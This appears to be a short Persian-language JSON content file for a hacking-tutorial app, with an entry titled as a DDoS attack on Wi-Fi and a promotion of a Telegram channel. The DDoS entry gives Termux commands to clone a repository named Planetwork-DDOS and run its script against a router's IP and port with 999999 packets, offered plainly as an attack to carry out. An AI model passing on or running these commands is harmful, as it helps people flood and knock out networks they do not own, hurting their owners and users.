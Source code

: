 [
  {
    "متن": "آموزش آنلاین",
    "ایدی": "سازنده:ALi135"
  },
  {
    "متن": "آموزش 2: اتک دیداس به وایفا",
    "ایدی": " کد های زیر را در ترموکس وارد کنید
git clone https://github.com/Hydra7/Planetwork-DDOS
cd Planetwork-DDOS
python2 pntddos.py [ip роутера] [порт] 999999"
  },
  {
    "متن": "لطفا در کانال اطلاع رسانی نرم افزار در تلگرام عضو بشید ایدی:
@ALi135app",
    "ایدی": "برای دریافت آموزشات و بهترین کد های ترموکس هر روز به این صفحه سر بزنید"
  }
]
